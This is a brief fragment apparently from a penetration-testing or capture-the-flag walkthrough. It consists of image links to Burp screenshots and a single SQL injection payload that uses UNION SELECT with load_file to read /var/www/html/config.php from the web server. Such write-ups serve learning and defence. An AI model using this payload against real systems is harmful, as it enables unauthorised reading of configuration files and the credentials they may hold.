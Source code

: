 ![SQLi - Burp](images/sqli_player_burp_read_file_index_php.png)

```bash
' union all select load_file('/var/www/html/config.php')-- -
```

![SQLi - Burp](images/sqli_player_burp_read_file_config_php.png)
